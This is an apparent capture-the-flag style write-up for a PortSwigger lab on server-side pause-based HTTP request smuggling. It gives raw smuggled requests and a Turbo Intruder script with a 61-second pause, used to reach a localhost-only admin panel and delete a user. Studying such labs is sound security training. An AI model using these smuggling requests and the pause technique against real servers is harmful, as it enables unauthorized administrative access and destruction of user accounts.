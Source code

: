 # Server-side pause-based request smuggling

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/browser/pause-based-desync/lab-server-side-pause-based-request-smuggling) is vulnerable to pause-based server-side request smuggling. The front-end server streams requests to the back-end, and the back-end server does not close the connection after a timeout on some endpoints. See [Browser-Powered Desync Attacks: A New Frontier in HTTP Request Smuggling: Pause](https://portswigger.net/research/browser-powered-desync-attacks#pause).

## Reproduction and proof of concept

### Identify a desync vector

1. In Burp, notice from the Server response header that the lab is using Apache 2.4.52. This version of Apache is potentially vulnerable to pause-based CL.0 attacks on endpoints that trigger server-level redirects.
2. In Burp Repeater, try issuing a request for a valid directory without including a trailing slash, for example, `GET /resources`. Observe that you are redirected to `/resources/`.
3. Right-click the request and select **Extensions -> Turbo Intruder -> Send to Turbo Intruder**.
4. In Turbo Intruder, convert the request to a `POST` request (right-click and select Change request method).
5. Change the `Connection` header to `keep-alive`.
6. Add a complete `GET /admin` request to the body of the main request. The result should look something like this:

```html
POST /resources HTTP/1.1
Host: lab-id.web-security-academy.net
Cookie: session=YOUR-SESSION-COOKIE
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: CORRECT

GET /admin/ HTTP/1.1
Host: lab-id.web-security-academy.net
```

7. In the Python editor panel, enter the following script. This issues the request twice, pausing for 61 seconds after the \r\n\r\n sequence at the end of the headers:

```html
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=500,
                           pipeline=False
                           )

    engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=61000)
    engine.queue(target.req)

def handleResponse(req, interesting):
    table.add(req)
```

8. Launch the attack. Initially, you won't see anything happening, but after 61 seconds, you should see two entries in the results table:
* The first entry is the `POST /resources` request, which triggered a redirect to `/resources/` as normal.
* The second entry is a response to the `GET /admin/` request. Although this just tells you that the admin panel is only accessible to local users, this confirms the pause-based CL.0 vulnerability.

### Exploit

1. In Turbo Intruder, go back to the attack configuration screen. In your smuggled request, change the Host header to localhost and relaunch the attack.
2. After 61 seconds, notice that you have now successfully accessed the admin panel.

![HTTP header smuggling](/_static/images/smuggling33.png)

3. Study the response and observe that the admin panel contains an HTML form for deleting a given user. Make a note of the following details:
* The action attribute (`/admin/delete`).
* The name of the input (`username`).
* The csrf token.
4. Go back to the attack configuration screen. Use these details to replicate the request that would be issued when submitting the form. The result should look something like this:

```text
POST /resources HTTP/1.1
Host: 0aff002604254014c2210d27007f0098.web-security-academy.net
Cookie: session=4TP6Vc87hbPHTBC3t1NrkMur72FnhtII
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: CORRECT

POST /admin/delete/ HTTP/1.1
Host: localhost
Content-Type: x-www-form-urlencoded
Content-Length: CORRECT

csrf=eEtdwzBFbHWNIMY4LkkR5tSVtK1LYCPU&username=carlos
    
    
```
    
5. To prevent Turbo Intruder from pausing after both occurrences of \r\n\r\n in the request, update the pauseMarker argument so that it only matches the end of the first set of headers, for example:

```text
pauseMarker=['Content-Length: CORRECT\r\n\r\n']
```

![HTTP header smuggling](/_static/images/smuggling34.png)
    
6. Launch the attack.
7. After 61 seconds, the lab is solved.

## Exploitability

An attacker will need to identify a pause-based CL.0 desync vector; smuggle a request to the back-end to the admin panel at `/admin`; and then delete the user `carlos`. 

